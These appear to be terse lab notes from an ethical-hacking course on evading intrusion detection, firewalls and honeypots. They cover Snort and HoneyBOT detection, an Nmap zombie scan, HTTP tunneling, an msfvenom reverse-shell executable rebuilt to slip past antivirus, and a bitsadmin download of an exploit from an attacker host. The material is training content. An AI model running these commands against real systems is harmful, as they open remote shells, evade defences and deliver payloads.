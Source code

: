 # Evading IDS, Firewalls and honeypots

## Perform intrusion detection using various tools

- Detect intrusions using Snort
windows application
apply rule
snort -W (list interface)
snort -dev -i 1 (enable the Ethernet Driver)

- Detect malicious network traffic using ZoneAlarm FREE FIREWALL
windows software

- Detect malicious network traffic using HoneyBOT

## Evade firewalls using various evasion techniques

- Bypass windows firewall using Nmap evasion techniques
Zombie Scan: nmap -sI 10.10.1.22 10.10.1.11

- Bypass firewall rules using HTTP/FTP tunneling
start htthost
install httport 3.SNFM establish "Port mapping"
connect to localhost to use the tunnel

- Bypass antivirus using Metasploit templates
/usr/share/metasploit-framework/data/templates/src/pe/exe/template.c
change the payload size from 4096 to 4000
i686-w64-mingw32-gcc template.c -lws2_32 -o evasion.exe
msfvenom -pwindows/shell_reverse_tcp lhost=10.10.1.13 lport=444 -x /usr/share/metasploit-framework/data/templates/src/pe/exe/evasion.exe -f exe > /home/attacker/bypass.exe

- Bypass firewall through Windows BITSAdmin

bitsadmin /transfer Exploit.exe http://10.10.1.13/share/Exploit.exe c:\Exploit.exe
